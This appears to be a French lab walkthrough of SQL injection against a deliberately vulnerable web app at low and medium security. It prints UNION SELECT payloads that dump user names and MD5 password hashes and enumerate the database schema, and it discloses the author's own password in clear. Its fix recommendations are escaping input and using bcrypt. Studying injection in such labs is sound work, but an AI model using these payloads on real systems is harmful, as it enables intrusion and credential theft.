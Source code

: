 ```
ID: ' UNION SELECT first_name, password FROM users #
First name: KHARKOUK
Surname: b8f8a4696e53e3b5ce5148be5c75c3a7

ID: ' UNION SELECT first_name, password FROM users #
First name: MOCHET
Surname: b8f8a4696e53e3b5ce5148be5c75c3a7

ID: ' UNION SELECT first_name, password FROM users #
First name: QETTE
Surname: 33d6f17128265f4c7b7f540bfa3c464f

ID: ' UNION SELECT first_name, password FROM users #
First name: SAIDI
Surname: c7a14d2ac074d22a0d6e47f059a6d95d

ID: ' UNION SELECT first_name, password FROM users #
First name: YASSINE
Surname: 40d0d9b3baa6532faf35b7ab88c90bea

ID: ' UNION SELECT first_name, password FROM users #
First name: Bob
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

Les mots de passe sont stockés en MD5 qui est une fonction de hashage.
Mon mot de passe est **bonjour92** ce qui donne `31ab78a60e3fc6fb7a38bbaf173e0053`

Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

De plus, il faudrait utiliser le système de hashage B_CRYPT plutôt que MD5 qui
ne vaut plus rien aujourd'hui. B_CRYPT a l'avantage de générer un sel ce qui
permet de fortifier le hashage.

**MEDIUM**
____

Les requêtes se font en POST et les caractères spéciaux sont échappés, mais cela
ne sert à rien. L'application est toujours contournable en modifiant le code
HTML en ajoutant un `input` avec le bon `id` et d'envoyer la requête ainsi.

On est obligé de récupérer les informations deux par deux pour respecter le
nombre de colonne étant donné que le caractère `'` est échapé.

On a donc :

* Pour la version de mysql et le nom de la base de données :
`1 UNION select @@version, database()`
* Pour le nom de l'utilisateur sous lequel tourne la base de données et
l'endroit où est stockée la base de données : `1 UNION select @@datadir, user()`
* Pour récupérer les informations stockées sur les utilisateurs :

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
WHERE table_schema != mysql AND table_schema != information_schema
AND table_name = users
```
